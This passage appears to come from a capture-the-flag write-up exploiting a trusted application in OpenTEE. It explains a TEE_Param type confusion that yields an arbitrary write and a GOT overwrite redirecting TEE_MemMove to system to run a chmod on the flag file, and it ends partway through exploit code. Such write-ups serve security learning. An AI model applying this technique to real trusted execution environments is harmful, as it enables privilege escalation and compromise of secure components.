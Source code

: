As expected, the Value Paramter is copied via a `memcpy` from the CA to the TEE. However, the TA sees a `TEE_Param` union structure:

```c
typedef union {
  struct {
    void* buffer;
    size_t size;
  } memref;
  struct {
    uint32_t a;
    uint32_t b;
  } value;
} TEE_Param;
```

This means that the `TEE_Param.value` and `TEE_Param.memref.buffer` overlap in memory! Under a parameter type confusion bug we can provide a Value Paramter and the TA will interpret it as a raw 64-bit pointer! The `TEE_Param.memref.size` will be zero because of the `memset(internal_op, 0, sizeof(struct com_msg_operation))` shown above. With this in mind, we notice that we can control the pointers passed in `TEE_Memmove` (e.g. `TEE_MemMove(curSignedStudent,student1,0x10)`). The given TA has partial RELRO and `TEE_Memmove` is present in its `.got.plt` section. With this information we conclude 2 things:

1. We have an arbitrary write since we control both pointers in `TEE_Memove`. These pointers have to pass the check `TEE_CheckMemoryAccessRights(TEE_MEMORY_ACCESS_READ | TEE_MEMORY_ACCESS_ANY_OWNER, ptr, sz)`.
2. By overwriting the `.got.plt` section, we can change `TEE_Memmove` to point to libc's `system`. This is useful because can control both the arguments to `TEE_Memmove` and their content.

We will focus on the `SIGN_STUDENT` command:

```c
TVar1 = TEE_CheckMemoryAccessRights(5,student2,(params->memref).size);
if (TVar1 == TEE_SUCCESS) {
  TVar1 = TEE_CheckMemoryAccessRights(5,curSignedStudent,sz);
  if (TVar1 == TEE_SUCCESS) {
  TEE_MemMove(curSignedStudent,student2,0x10);
  TEE_MemMove(curSignedStudent->lastname,student2->lastname,0x10);
  curSignedStudent->grade = student2->grade;
  curSignedStudent->sciper = student2->sciper;
  TVar1 = calculate_signature(sessionContext,curSignedStudent); //writes 0x10 bytes at curSignedStudent+0x28
  return TVar1;
}  }
```

Using a `SIGN_STUDENT` command, we will use the 2<sup>nd</sup> `TEE_MemMove` shown above to overwrite the `TEE_MemMove@.got.plt` to point to `system`. This can be achieved by doing a type confusion on `params[1]`. With a subsequent `SIGN_STUDENT` command, we will invoke `TEE_MemMove("chmod ugo+r /opt/OpenTee/flag.txt")` which will actually resolve to `system("chmod ugo+r /opt/OpenTee/flag.txt")`. Afterwards, we will be able to dump the flag. Here is the exploit for the type confusion:

```c
static void create_64bit_TEEC_Value(TEEC_Value *dest, uint64_t val) {
  dest->a = (val << 32) >> 32;
  dest->b = val >> 32;
}
int main() {
  // ...
  uint64_t libc_base = /* ... */;
  uint64_t libc_system = libc_base + 0x50d70;
  printf("Found libc base: 0x%lx\n", libc_base);
  printf(" [*] system: 0x%lx\n", libc_system);

  //grade_ta.so is mmaped via dlopen()
  uint64_t grade_ta_base = libc_base + 0x228000;
  uint64_t grade_ta_getRandomByte_got_plt = grade_ta_base + 0x4020;
```
